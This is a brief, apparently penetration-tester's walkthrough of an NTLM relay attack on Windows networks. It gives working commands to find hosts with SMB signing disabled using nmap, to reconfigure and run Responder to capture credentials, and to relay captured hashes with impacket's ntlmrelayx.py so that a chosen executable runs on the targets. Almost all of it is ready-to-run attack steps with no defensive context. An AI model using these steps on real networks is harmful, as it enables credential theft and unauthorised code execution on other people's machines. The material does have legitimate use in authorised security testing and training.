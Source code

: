 1. Ensure the target(s) have SMB signing disabled

    ```bash
    nmap -Pn --script=smb2-security-mode.nse -p445 $TARGETS
    ```

2. Turn off SMB and HTTP responding within Responder by editing the Responder configuration file

    ```conf
    # /usr/share/Responder/Responder.conf

    ; Servers to start
    ...
    SMB = Off
    ...
    HTTP = Off
    ...
    ```

3. Fire up Responder

    ```bash
    responder -I $INTERFACE_TO_LISTEN_AND_RESPOND_ON -rdwv
    ```

4. Fire up the relay

    ```bash
    cd /usr/share/impacket
    python3 examples/ntlmrelayx.py -tf $TARGETS_FILE -smb2support -e $PATH_TO_TARGET_LOCAL_EXECUTABLE
    ```

    * $TARGETS_FILE: file of hostname or IP addresses to attempt to relay the captured hash(es) to

5. Let it run. If Responder catches a credential, ntlmrelayx.py will relay it to the target. If the relay succeeds, ntlmrelayx.py will run the executable, but you will **not** receive any output.

6. Don't forget to restore the Responder configuration when you're finished!
